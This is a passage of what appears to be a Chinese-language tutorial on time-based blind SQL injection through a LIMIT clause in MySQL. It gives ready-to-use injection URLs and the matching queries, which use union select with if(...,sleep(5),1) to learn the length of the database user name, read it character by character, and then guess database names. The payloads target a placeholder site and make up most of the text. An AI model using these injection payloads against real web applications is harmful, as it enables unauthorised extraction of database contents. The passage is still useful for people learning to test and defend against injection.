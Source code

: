 ```plain
mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set (0.00 sec)
```

## 0x02 获取数据长度

```plain
mysql> select length(user());
+----------------+
| length(user()) |
+----------------+
|             14 |
+----------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/limit_sql.php?limit=1 union select 1,if(length(user())=14,sleep(5),1),3,4,5,6,7



数据库语句: select * from tdb_goods limit 0,1 union select 1,if(length(user())=14,sleep(5),1),3,4,5,6,7

## 0x03 读取数据库版本/当前连接用户/当前连接的数据库

读取不同的内容

例如:

substring(user(),1,1) = r

substring(user(),2,1) = o



web语句: http://www.test.com/limit_sql.php?limit=1 union select 1,if(substring(user(),1,1)='r',sleep(5),1),3,4,5,6,7



数据库语句: select * from tdb_goods limit 0,1 union select 1,if(substring(user(),1,1)='r',sleep(5),1),3,4,5,6,7

## 0x04 猜库名

注意: LIMIT 0 修改会显示其他库名

例如:

LIMIT 0,1 修改为0 就是出1库

LIMIT 1,1 修改为1 就是出2库
